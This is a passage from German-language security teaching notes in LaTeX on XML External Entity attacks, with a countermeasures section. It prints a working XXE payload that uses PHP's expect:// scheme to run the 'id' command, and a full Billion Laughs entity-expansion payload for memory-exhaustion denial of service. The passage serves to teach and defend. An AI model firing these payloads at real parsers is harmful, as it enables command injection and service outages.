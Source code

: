 Ein XML External Entity kann auch auf virtuelle Adressen verweisen. So wird z. B. vom PHP XML Parser als Schema \textit{expect} angeboten. Bei diesem Schema wird die übergebene URL als Systemkommando ausgeführt und dessen Ergebnis in das XML-Dokument eingefügt. Ein Angreifer kann dies missbrauchen um Systemkommands (Command Injection) auszuführen:

\begin{verbatim}
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [ <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "expect://id" >
]>
<creds>
  <user>&xxe;</user>
  <pass>mypass</pass>
</creds>
\end{verbatim}

In diesem Fall wird als Benutzername die Ausgabe des UNIX-Systemkommandos \textit{id} eingefügt.

\subsection{Gegenmaßnahmen}

Die bevorzugte Gegenmaßnahme ist es, den verwendeten Parser so zu konfigurieren, dass er keinen Zugriff auf XML External Entities zulässt. Häufig wird auch die Verwendung ``einfacherer'' Dokumentenformate als Gegenmaßnahme vorgeschlagen: dies ist allerdings IMHO nicht der beste Weg, da auch die Parser einfacher Dokumentenformate (wie z. B. CSV und JSON) ebenso Schwachstellen besitzen.

\subsection{DoS Attacks}

Ein weiteres Problem von External Entities ist es, dass hierdurch schnell tiefe und breite Datenstrukturen aufgebaut werden können. Versucht ein Parser nun diese Datenstruktur in-memory zu bauen, kann ein Parser sehr schnell out-of-memory gehen und dadurch einen Speicher-basierten DoS-Angriff durchführen.

Ein bekanntes Beispiel sind Million-Laugh Angriffe:

\begin{verbatim}
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;"> 
]>
<root>&LOL9;</root>
\end{verbatim}

